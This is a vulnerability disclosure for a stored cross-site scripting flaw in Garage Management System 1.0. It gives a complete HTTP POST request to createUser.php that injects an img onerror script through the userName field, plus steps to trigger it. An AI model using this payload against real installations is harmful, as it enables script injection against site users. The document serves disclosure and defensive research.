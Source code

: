 # Garage Management System  - user_info  'userName' Stored Cross-Site Scripting(XSS)


#### Exploit Title: Garage Management System  - user_info  'userName' Stored Cross-Site Scripting(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15485&title=Garage+Management+System+using+PHP%2FMySQL+Free+Source+Code
#### Version: Garage Management System  1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Garage Management System does not filter the content correctly at the "userName" parameter, resulting in the generation of stored XSS.

#### Payload used:
```
POST /php_action/createUser.php HTTP/1.1
Host: 192.168.67.9
Content-Length: 565
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUD1Yb96WGEg9mpcD
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.9/add-user.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=sv8b900m4au6g31guodelu6tc9
Connection: close

------WebKitFormBoundaryUD1Yb96WGEg9mpcD
Content-Disposition: form-data; name="currnt_date"


------WebKitFormBoundaryUD1Yb96WGEg9mpcD
Content-Disposition: form-data; name="userName"

lala<img src="" onerror=alert(1)>
------WebKitFormBoundaryUD1Yb96WGEg9mpcD
Content-Disposition: form-data; name="upassword"

123
------WebKitFormBoundaryUD1Yb96WGEg9mpcD
Content-Disposition: form-data; name="uemail"

123@qq.com
------WebKitFormBoundaryUD1Yb96WGEg9mpcD
Content-Disposition: form-data; name="create"


------WebKitFormBoundaryUD1Yb96WGEg9mpcD--


```



#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.9/users.php，We can see the alert.

   ![image-20220729162226706](img/image-20220729162226706.png)

   

   ![image-20220729162251595](img/image-20220729162251595.png)



